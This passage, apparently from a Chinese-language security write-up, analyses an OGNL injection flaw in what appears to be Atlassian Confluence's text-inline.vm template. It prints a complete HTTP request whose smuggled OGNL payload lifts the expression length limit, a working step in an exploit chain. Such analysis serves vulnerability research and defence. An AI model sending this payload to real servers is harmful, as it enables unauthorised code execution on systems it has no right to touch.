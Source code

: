 这个属性首先默认在配置文件中出现

[![](assets/1710899069-51297ae21ce39947a0103b3d2c8fe1ad.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240227111516-6dcabb64-d51e-1.png)

在 8.5.1 中为 200，在 8.5.3 是 150，当然这都不要紧，因为我们是可以设置 length 的，我们可以通过调用 `applyExpressionMaxLength` 方法达到类似覆盖的效果

```plain
POST /template/aui/text-inline.vm HTTP/1.1
Host: localhost:8090
Pragma: no-cache
Cache-Control: no-cache
sec-ch-ua: "Not A(Brand";v="99", "Microsoft Edge";v="121", "Chromium";v="121"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36 Edg/121.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 190

label=aaa\u0027%2b#request.get(\u0027.KEY_velocity.struts2.context\u0027).internalGet(\u0027ognl\u0027).findValue(#parameters.poc[0],{})%2b\u0027&poc=@ognl.Ognl@applyExpressionMaxLength(20000000)
```

[![](assets/1710899069-57f58a408ac8c5d0e7b9b827425c8a58.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240227111521-70e248d0-d51e-1.png)
